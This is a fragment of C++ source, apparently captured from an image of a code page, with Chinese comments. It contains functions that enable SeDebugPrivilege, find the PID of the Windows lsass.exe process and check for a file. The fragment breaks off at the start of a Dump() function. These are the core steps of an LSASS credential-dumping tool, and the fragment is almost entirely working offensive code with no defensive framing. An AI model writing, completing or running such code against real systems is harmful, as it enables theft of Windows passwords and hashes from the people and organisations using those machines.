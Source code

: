 ```cpp
        }
        FreeSid(AdministratorsGroup);
    }

    return state;
}

// 启用调试权限
BOOL EnableDebugPrivilege()
{
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    BOOL isEnabiled = AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    if (isEnabiled) {
        CloseHandle(hToken);
        CloseHandle(hThis);
        return TRUE;
    }
    return FALSE;
}

// 获取 lsass 进程的 PID
DWORD GetLsassPID() 
{
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) 
    {
        while (_wcsicmp(processName, L"lsass.exe") != 0) 
        {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    return lsassPID;
}

// 检查指定文件是否存在
BOOL CheckFileExists(PWCHAR file) 
{
    WIN32_FIND_DATA FindFileData;
    HANDLE hFind = FindFirstFileEx(file, FindExInfoStandard, &FindFileData, FindExSearchNameMatch, NULL, 0);
    if (hFind == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }
    return TRUE;
}

int Dump() 
```